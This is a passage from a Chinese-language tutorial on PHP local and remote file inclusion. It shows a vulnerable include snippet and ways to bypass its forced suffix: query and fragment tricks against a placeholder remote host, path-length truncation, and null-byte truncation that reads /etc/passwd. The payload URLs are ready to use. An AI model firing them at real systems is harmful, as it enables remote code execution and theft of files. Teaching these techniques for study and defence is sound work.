 ```php
<?php
	$file = $_GET['file'];
	include $file.'/test/test.php';
?>
```

#### URL
url格式

```
protocol :// hostname[:port] / path / [;parameters][?query]#fragment
```

在远程文件包含漏洞（RFI）中，可以利用`query`或`fragment`来绕过后缀限制。

##### 姿势一：`query（？）`
```
index.php?file=http://remoteaddr/remoteinfo.txt?
```

则包含的文件为 `http://remoteaddr/remoteinfo.txt?/test/test.php`
问号后面的部分`/test/test.php`，也就是指定的后缀被当作`query`从而被绕过

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.pzruqe9hc9_1536892706)

##### 姿势二：`fragment（#）`
```
index.php?file=http://remoteaddr/remoteinfo.txt%23
```
则包含的文件为 `http://remoteaddr/remoteinfo.txt#/test/test.php`
问号后面的部分`/test/test.php`，也就是指定的后缀被当作`fragment`从而被绕过。注意需要把`#`进行url编码为`%23`。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.w2pf1u0sgd_1536892713)


#### 长度截断
利用条件： php版本 < php 5.2.8

**目录字符串**，在linux下`4096`字节时会达到最大值，在window下是`256`字节。只要不断的重复`./`或者`../`

```
index.php?file=././././。。。省略。。。././shell.txt
```

则后缀`/test/test.php`，在**达到最大值后会被直接丢弃掉**

#### 0字节截断
利用条件：magic_quotes_gpc=off, php版本 < php 5.3.4

```
index.php?file=phpinfo.txt%00
# 或者需要回到根目录，利用../
?file=../../../../../../../../../etc/passwd%00
# 或者是
?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
```
